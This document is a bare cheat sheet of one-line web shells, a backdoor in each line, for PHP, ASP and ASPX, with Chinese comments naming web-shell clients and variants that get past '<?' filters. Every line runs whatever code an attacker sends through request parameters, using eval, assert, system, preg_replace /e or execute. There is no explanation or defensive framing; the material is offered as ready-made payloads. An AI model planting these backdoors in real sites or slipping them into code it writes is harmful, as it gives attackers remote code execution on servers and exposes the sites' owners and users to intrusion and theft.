 - php:

```php
<?php eval($_POST1);?> 
<?php @eval($_POST['value']);?>
<?php if(isset($_POST['c'])){eval($_POST['c']);}?> 
<?php system($_REQUEST1);?> 
<?php ($_=@$_GET1).@$_($_POST1)?> 
<?php eval_r($_POST1)?> 
<?php @eval_r($_POST1)?>//容错代码 
<?php @eval($_POST[sb])?>
<?php assert($_POST1);?>//使用Lanker一句话客户端的专家模式执行相关的PHP语句 
<?$_POST['c']($_POST['cc']);?> 
<?$_POST['c']($_POST['cc'],$_POST['cc'])?> 
<?php @preg_replace("/[email]/e",$_POST['h'],"error");?>/*使用这个后,使用菜刀一句话客户端在配置连接的时候在"配置"一栏输入*/:<O>h=@eval_r($_POST1);</O> 
<?php echo `$_GET['r']` ?> 
//绕过<?限制的一句话 
<script language="php">@eval_r($_POST[sb])</script> 
<?php eval($_POST[sb])?>
<?php assert($_POST[sb]);?>
<?$_POST['sa']($_POST['sb']);?>
<?$_POST['sa']($_POST['sb'],$_POST['sc'])?>
<?php @preg_replace("/[emai]/e",$_POST['h'],"error");?>
<script language="php">@eval($_POST[sb])</script>   //绕过<?
```

- asp:

```php
<%eval request("MH")%>

<%execute request("MH")%>

<%execute(request("MH"))%>

<%If Request("MH")<>"" Then Execute(Request("MH"))%>

<%if request ("MH")<>""then session("MH")=request("MH"):end if:if session("MH")<>"" then execute session("MH")%>

<SCRIPT language=VBScript runat="server">execute request("MH")</SCRIPT>

<%@ Page Language="Jscript"%>

<%eval(Request.Item["MH"],"unsafe");%>

```

- aspx:

```php
<%@ Page Language="Jscript"%>
<%eval(Request.Item["value"])%>
```
